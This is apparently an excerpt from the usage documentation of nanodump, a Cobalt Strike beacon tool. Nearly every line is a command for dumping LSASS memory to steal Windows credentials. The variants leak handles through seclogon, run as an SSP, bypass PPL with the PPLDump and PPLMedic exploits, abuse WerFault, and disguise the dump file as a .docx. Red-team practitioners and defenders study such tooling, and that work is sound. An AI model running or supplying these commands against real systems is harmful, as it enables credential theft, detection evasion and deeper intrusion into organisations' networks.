 ```
beacon> nanodump --fork --write C:\lsass.dmp
```

Use the seclogon leak remote to leak an LSASS handle in a notepad process, duplicate that handle to get access to LSASS, then read it indirectly by creating a fork and downloading the dump with a valid signature:
```
beacon> nanodump --seclogon-leak-remote C:\Windows\notepad.exe --fork --valid
```

Get a handle with seclogon leak local, read LSASS indirectly by using a fork and write the dump to disk with a valid signature (a nanodump binary will be uploaded!):
```
beacon> nanodump --seclogon-leak-local --fork --valid --write C:\Windows\Temp\lsass.dmp
```

Download the dump with an invalid signature (default):
```
beacon> nanodump
```

Duplicate an existing handle and write the dump to disk with an invalid signature:
```
beacon> nanodump --duplicate --write C:\Windows\Temp\report.docx
```

Get the PID of LSASS:
```
beacon> nanodump --getpid
```

Load nanodump in LSASS as an SSP (a nanodump binary will be uploaded!):
```
beacon> nanodump_ssp -w C:\Windows\Temp\lsass.dmp
```

Dump LSASS bypassing PPL using the PPLDump exploit, duplicating the handle that csrss.exe has on LSASS:
```
beacon> nanodump_ppl_dump --duplicate --write C:\Windows\Temp\lsass.dmp
```

Dump LSASS bypassing PPL using the PPLMedic exploit, opening a low privileged handle to LSASS and then elevating it:
```
beacon> nanodump_ppl_medic --elevate-handle --write C:\Windows\Temp\lsass.dmp
```

Trick seclogon into opening a handle to LSASS and duplicate it, then download the dump with an invalid signature:
```
beacon> nanodump --seclogon-duplicate
```

Make the WerFault.exe process create a full memory dump in the Temp folder:
```
beacon> nanodump --werfault C:\Windows\Temp\
```
